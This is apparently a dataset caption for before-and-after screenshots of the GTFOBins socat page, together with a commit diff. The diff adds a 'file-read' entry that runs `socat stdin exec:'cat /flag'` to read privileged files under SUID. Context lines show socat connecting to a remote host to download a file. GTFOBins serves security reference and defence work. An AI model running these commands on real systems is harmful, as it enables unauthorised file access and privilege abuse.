

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/socat.md, in a window 1280 px wide and 900 px high, scrolled down 1100 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Adding file read exec
Adding a file-read section for the exec: address.

```diff
--- a/_gtfobins/socat.md
+++ b/_gtfobins/socat.md
@@ -29,6 +29,10 @@ functions:
         RPORT=12345
         LFILE=file_to_save
         socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
+  file-read:
+    - description: Read local files from the system. If the SUID bit is set this can be used to read privileged local files.
+      code: |
+        socat stdin exec:'cat /flag'
   sudo:
     - description: The resulting shell is not a proper TTY shell and lacks the prompt.
       code: |
```
